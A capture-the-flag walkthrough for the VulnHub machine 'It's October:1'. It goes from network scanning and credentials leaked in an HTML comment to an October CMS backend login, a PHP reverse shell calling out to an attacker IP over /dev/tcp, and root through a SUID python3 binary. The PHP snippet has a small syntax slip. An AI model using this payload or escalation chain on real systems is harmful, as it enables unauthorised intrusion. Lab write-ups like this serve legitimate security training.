 # It's October:1 - VulnHub

[It's October:1 VulnHub link](https://www.vulnhub.com/entry/its-october-1,460/)

## arp scan to find out our machine ip address on the network
![arp-scan](images/ItsOctober-1/arp-scan.png)

we found out our target ip address is 192.168.56.104

## Nmap
first we need to check what ports and services are available for us in the target machine using nmap tool:
![nmap-scan](images/ItsOctober-1/nmap-scan.png)

**command exaplain:**

**nmap** - network scanner tool used to discover hosts and services on machines.

**-sC** - preforming script scan using default scripts.

**-sV** - preforming service version detection.

**-oA** - output in all formats.

it is recommanded to scan the machine at the background for all ports while enumerating the machine, becuase all ports scan found the same ports I wont show it.

from the nmap scan we discovered 4 ports are open:

*port 22* - ssh OpenSSH.

*port 80* - Apache httpd.

*port 3306* - MYSQL.

*port 8080* - Apache httpd.

## httpd servers:

first we visit the two websites that are available to us:

*on port 80*

![web-port-80](images/ItsOctober-1/web-port-80.png)

*on port 8080*

![web-port-8080](images/ItsOctober-1/web-port-8080.png)

if we investigate the two websites we discover on My Notes website html code(on port 8080):

```html
<!DOCTYPE html>
<html>
<head>	
	<title>My Note</title>
</head>
<body>
	<img src="mynote.jpg" width="100%">
	<!-- 
		<a href="mynote.txt">My Note</a>
	 -->
</body>
</html>
```

when we visit http://192.168.56.104:8080/mynote.txt we get the following credentials:

username: admin

password: adminadmin2

now usually when enumarating http website we should run on the background tool to discover hidden pages or directories

I will be using gobuster:

![gobuster-scan](images/ItsOctober-1/gobuster-scan.png)

**command exaplain:**

**gobuster** - tool used to brute-force: URIs in web sites,DNS subdomains and Virtual Host names on web servers.

**dir** - directory brute-force mode.

**-u** - target url.

**-w** - wordlist to use in the brute-force.

**-o** - file output.

**-t** - maximum number of threads to use.

from the scan we got interesting page: /backend - managing section for the website.

we got a login screen were we get to use the credentials we found earlier.

and we got in!

![web-backend](images/ItsOctober-1/backend-web.png)

now, we need to find a way to get a shell probably by creating new page that can get us a reverse shell.

after searching this backend section, found a way to add new page in cms section:

![cms](images/ItsOctober-1/cms.png)

a little searching on google about the October framework (the website build in framework) tells us it's a php framework, in order to add a new page with php code we need to add the php code in the code section in a function called onStart:

```php
	function onStart() 
	{
		exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.103/1234 0>&1'"
	}
```

![reverseshell-code](images/ItsOctober-1/php-reverse-shell-code.png)

192.168.56.103 - attacker ip address.

1234 - attacker port.

if we save the page, open listening on port 1234 using netcat and browse to the page created we get a shell:

![initial-shell](images/ItsOctober-1/init-shell.png)

**command explain:**

**nc** - netcat, tcp and udp tool for connections and listens.

**-l** - listen for connections.

**-v** - verbose output.

**-p** - port number.

after getting the initial shell, we do some enumarating: investigating the existing users, maybe sudo permissions or running services at localhost, but found nothing.

then we search for files with suid as root - suid is special type of file permissions to run a file as it's owner, so when we run file with root owner and suid we are running as root, we can use this files for privilege escalation to get to root.

in order to find suid root files:

![suid-search](images/ItsOctober-1/suid-search.png)

**command explain:**

**find** - command to search files.

**-user** - file is owned by...

**-perm** - file with permission (find suid file set as 4000)

**-print** - print the full file name.

**2>/dev/null** - redirect errors to /dev/null - meaning not printed on console.

one of the executable file set as root is python3!

we can use to pass command to the shell (as root) and get a shell:

![root](images/ItsOctober-1/root.png)

and we got to root!
